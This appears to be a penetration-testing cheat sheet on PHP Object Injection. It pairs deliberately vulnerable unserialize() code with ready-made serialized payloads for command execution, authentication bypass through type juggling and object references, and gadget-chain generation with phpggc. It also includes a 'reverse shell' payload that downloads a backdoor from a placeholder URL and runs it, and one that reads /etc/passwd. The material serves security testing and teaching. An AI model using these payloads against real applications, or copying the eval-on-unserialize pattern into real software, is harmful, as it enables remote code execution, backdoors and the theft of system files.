 # PHP Object injection

PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

The following magic methods will help you for a PHP Object injection

* __wakeup() when an object is unserialized.
* __destruct() when an object is deleted.
* __toString() when an object is converted to a string.

Also you should check the `Wrapper Phar://` in [File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phar) which use a PHP object injection.

## __wakeup in the unserialize function

Vulnerable code:

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

Payload:

```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
```

## Authentication bypass

### Type juggling

Vulnerable code:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

Because `true == "str"` is true.

### Object reference

Vulnerable code:

```php
<?php
class Object
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

Payload:

```php
O:6:"Object":2:{s:10:"secretCode";N;s:4:"code";R:2;}
```

## Others exploits

Reverse Shell

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

Basic detection

```php
class PHPObjectInjection
{
    // CHANGE URL/FILENAME TO MATCH YOUR SETUP
    public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## Finding and using gadgets

[PHPGGC](https://github.com/ambionics/phpggc) is a tool built to generate the payload based on several frameworks:

- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
```

## Real world examples

* [Vanilla Forums ImportController index file_exists Unserialize Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/410237)
* [Vanilla Forums Xenforo password splitHash Unserialize Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/410212)
* [Vanilla Forums domGetImages getimagesize Unserialize Remote Code Execution Vulnerability (critical) - Steven Seeley](https://hackerone.com/reports/410882)
* [Vanilla Forums Gdn_Format unserialize() Remote Code Execution Vulnerability - Steven Seeley](https://hackerone.com/reports/407552)

## References

* [PHP Object Injection - OWASP](https://www.owasp.org/index.php/PHP_Object_Injection)
* [PHP Object Injection - Thin Ba Shane](http://location-href.com/php-object-injection/)
* [PHP unserialize](http://php.net/manual/en/function.unserialize.php)
* [PHP Generic Gadget - ambionics security](https://www.ambionics.io/blog/php-generic-gadget-chains)
* [POC2009 Shocking News in PHP Exploitation](https://www.owasp.org/images/f/f6/POC2009-ShockingNewsInPHPExploitation.pdf)
* [PHP Internals Book - Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html)
* [TSULOTT Web challenge write-up from MeePwn CTF 1st 2017 by Rawsec](https://rawsec.ml/en/MeePwn-2017-write-ups/#tsulott-web)